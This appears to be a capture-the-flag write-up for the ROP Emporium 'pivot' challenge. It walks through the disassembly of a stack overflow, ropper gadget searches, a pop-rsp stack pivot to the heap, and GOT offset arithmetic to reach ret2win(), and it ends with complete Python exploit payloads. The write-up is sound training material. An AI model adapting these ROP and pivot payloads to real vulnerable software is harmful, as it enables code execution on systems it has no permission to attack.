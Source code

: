 ```yaml
---
title: 07_pivot
categories: series rop_emporium
---
```


# ROP Emporium pivot

* **Tools:** IDA Free 7.0, gdb-gef, ropper, readelf
* **Prerequistes:** Stack frame
* **Download solution:** [main.py](/assets/series/rop_emporium/main.py)

## Overview

> "There's only enough space for a three-link chain on the stack but you've been given space to stash a much larger ROP chain elsewhere. [...] To "stack pivot" just means to move the stack pointer elsewhere."

Here, we have to call the function `ret2win()` exported by the shared library `libpivot.so`. The function `ret2win()` is not directly imported; however, the function `foothold_function()` (also exported by libpivot) is. With some `.got.plt` shenanigans, we'll catch the flag.

When executing the binary, it gives us an address on the heap where to pivot (changing at each execution) and wait for a first input; then, it asks for a second input.

## Allocating memory on the heap

The `main()` function allocate `0x1000000` bytes on the heap, and add `0xffff00` bytes to the returned pointer. The result is passed as argument to the function `pwnme()`:

```
0x00000000004009EE    mov     edi, 1000000h   ; size
0x00000000004009F3    call    _malloc
0x00000000004009F8    mov     [rbp+pHeap_1], rax
0x00000000004009FC    mov     rax, [rbp+pHeap_1]
0x0000000000400A00    add     rax, 0FFFF00h
0x0000000000400A06    mov     [rbp+pHeap_2], rax
0x0000000000400A0A    mov     rax, [rbp+pHeap_2]
0x0000000000400A0E    mov     rdi, rax
0x0000000000400A11    call    pwnme
```

## Function pwnme()

The first input is stored on the heap, while the second input is stored on the stack:

```
0x0000000000400A96    mov     rdx, cs:stdin@@GLIBC_2_2_5 ; stream
0x0000000000400A9D    mov     rax, [rbp+pHeap_2]
0x0000000000400AA1    mov     esi, 100h       ; n
0x0000000000400AA6    mov     rdi, rax        ; s
0x0000000000400AA9    call    _fgets
[...]
0x0000000000400AC7    mov     rdx, cs:stdin@@GLIBC_2_2_5 ; stream
0x0000000000400ACE    lea     rax, [rbp+s]
0x0000000000400AD2    mov     esi, 40h        ; n
0x0000000000400AD7    mov     rdi, rax        ; s
0x0000000000400ADA    call    _fgets
```

Also, the stack buffer is `0x20` bytes long but we can send up to `0x40` bytes to it. 
Looking at the stack when we reach the `ret` instruction at end of the function pwnme() (offset `0x0AE1`), we see the heap pointer stored on the stack frame of the caller:
```
0x00007fffffffe1e8: 0x0000000000400a16 ; <main+128>
0x00007fffffffe1f0: 0x00007ffff7beaf10 ; 0x0000000a61616161 <- pHeap_2
0x00007fffffffe1f8: 0x00007ffff6beb010 ; 0x0000000000000000 <- pHeap_1
```
Hence my first idea was to return to a `pop rsp` gadget, thinking I could have a direct pivot to the heap. However, `_fgets()` add a `0x0A` byte at the end of the input and it screwed up everything. The slightly different strategy was to retrieve the pivot address returned by the nice `printf()` (the string "The Old Gods kindly bestow upon you a place to pivot"...), and to put this value at the end of the stack buffer. Because fuck you \_fgets().

## Step 1: searching a pivot

Because we'll force the pivot value on the stack frame of the caller, we can search a `pop rsp` gadget:

```bash
ropper --search "pop ?sp" -f pivot
[...]
0x0000000000400b6d: pop rsp; pop r13; pop r14; pop r15; ret;
```
We find one. There are more `pop` instruction than needed, but that's not a problem: after the first instruction, `RSP` will point to the heap buffer.

So, let's fill the stack as usual and hijack `RIP` to the pivot gadget:
```
\x41\x41\x41\x41\x41\x41\x41\x41  <-+ buffer start 
\x41\x41\x41\x41\x41\x41\x41\x41    |
\x41\x41\x41\x41\x41\x41\x41\x41    |
\x41\x41\x41\x41\x41\x41\x41\x41  <-+ buffer end
\x42\x42\x42\x42\x42\x42\x42\x42  <-- saved RSP 
\x6d\x0b\x40\x00\x00\x00\x00\x00  <-- RIP: ret to pivot gadget (0x00400b6d)
\x??\x??\x??\x??\x??\x??\x??\x??  <-- pivot value (caller local var)
```

## Step 2: calling foothold\_function()

Register `RSP` points to the new frame. However, the gadget used to do that is:
```
pop rsp; pop r13; pop r14; pop r15; ret;
```
This means the heap buffer needs to start with something to put inside `R13`, `R14`, and `R15`. After that, the `ret` instruction will allow us to continue the ROP chain to wherever we want. 
Because we will hijack the `.got.plt` entry of the function `foothold_function()`, we have to call it a first time so the entry gets filled correctly by the OS. Hence, the first part of the heap buffer will look like this:
```
\x43\x43\x43\x43\x43\x43\x43\x43  <-- dummy r13
\x44\x44\x44\x44\x44\x44\x44\x44  <-- dummy r14
\x45\x45\x45\x45\x45\x45\x45\x45  <-- dummy r15
\x50\x08\x40\x00\x00\x00\x00\x00  <-- _foothold_function@plt
```

## Step 3: patching the address of foothold\_function()

Once the `.got_plt` entry of `foothold_function()` is solved (pointer = `0x602048`), we can retrieve it thanks to the useful gadgets kindly provided to us:
```
0x0000000000400B00    pop     rax ; 0x602048 foothold_function@got.plt
0x0000000000400B01    retn
[...]
0x0000000000400B05    mov     rax, [rax] ; foothold_function@libpivot
0x0000000000400B08    retn
``` 
A little `call rax` would hint us we're on a good path to the flag, so:
```bash
ropper --search "call rax" -f pivot
[...]
0x000000000040098e: call rax;
```
Well, at this point using `call rax` would call `foothold_function()` a second time. Wouldn't it be cool if wee could modifiy this address? Again, useful gadgets come to the rescue:
```
0x0000000000400B09    add     rax, rbp
0x0000000000400B0C    retn
```
And ropper says we can control `RBP`:
```bash
ropper --search "pop ?bp" -f pivot
[...]
0x0000000000400900: pop rbp; ret;
```
The last piece of information we need is the value to set in `RBP`. For the version of `libpivot.so` I have, `foothold_function()` is at `0x970`, and `ret2win()` is at `0xABE`. Thus: **0xABE - 0x970 = 0x14e**.

## Putting things together (in Python)

Retrieving the pivot and setting up the stack buffer (second requested input, but it is the first to be executed):

```python
p = process("pivot")
hint = p.recvline_contains("pivot: ").decode("utf8")
pivot = int(hint.split(": ")[1], 16)

stack_payload = b''
stack_payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
stack_payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
stack_payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
stack_payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
stack_payload += b'\x42\x42\x42\x42\x42\x42\x42\x42'  # overwrite RSP
stack_payload += b'\x6d\x0b\x40\x00\x00\x00\x00\x00'  # overwrite RIP and pivot to heap
stack_payload += p64(pivot)  # overwrite part of main() stack frame
```

Adjusting the new `RSP` and calling `ret2win()` (first requested input, second to be executed):

```python
heap_payload = b''
heap_payload += b'\x43\x43\x43\x43\x43\x43\x43\x43'  # dummy r13
heap_payload += b'\x44\x44\x44\x44\x44\x44\x44\x44'  # dummy r14
heap_payload += b'\x45\x45\x45\x45\x45\x45\x45\x45'  # dummy r15
heap_payload += b'\x50\x08\x40\x00\x00\x00\x00\x00'  # 0x400850 foothold_function@plt
heap_payload += b'\x00\x0b\x40\x00\x00\x00\x00\x00'  # pop rax; ret
heap_payload += b'\x48\x20\x60\x00\x00\x00\x00\x00'  # foothold_function@got.plt
heap_payload += b'\x05\x0b\x40\x00\x00\x00\x00\x00'  # mov rax, [rax]; ret
heap_payload += b'\x00\x09\x40\x00\x00\x00\x00\x00'  # pop rbp; ret
heap_payload += b'\x4e\x01\x00\x00\x00\x00\x00\x00'  # 0x14e = offset from foothold to ret2win
heap_payload += b'\x09\x0b\x40\x00\x00\x00\x00\x00'  # add rax, rbp; ret
heap_payload += b'\x8e\x09\x40\x00\x00\x00\x00\x00'  # call ret2win@libpivot
```

---
EOF
